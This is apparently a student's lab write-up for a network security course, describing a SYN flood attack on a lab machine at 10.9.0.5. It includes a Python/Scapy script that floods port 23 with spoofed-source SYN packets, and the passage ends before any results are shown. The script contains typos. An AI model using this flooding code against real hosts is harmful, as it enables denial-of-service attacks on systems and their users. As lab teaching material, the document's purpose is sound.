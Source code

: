 # 50.020 Network Security - Lab 2 Writeup

## Task 1
### Task 1.1 synfloodafter_synflood
- We are asked to perform a SYN flood attack on the victim machine with IP address: `10.9.0.5`
- before we start the attack we check the victim machine's TCP connections using `netstat -nat`
    - ![TCP connection before synflood](images/before_synflood.png)
    - We see that there are only 2 established local connections 
- Using the python script `synflood.py`
    - ```python
        #!/bin/env python3

        from scappy.all import IP,TCP,send
        from ipaddress import IPv4Address
        from random import getrandbits

        ip = IP(dst="10.9.0.5")
        tcp = TCP(dport=23, flags=’S’)
        pkt = ip/tcp

        while True:
            pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
            pkt[TCP].sport = getrandbits(16) # source port
            pkt[TCP].seq = getrandbits(32) # sequence number
            send(pkt, verbose = 0)
        ```
- After we run the script we check the victim machine's TCP connection again using `netstat -nat`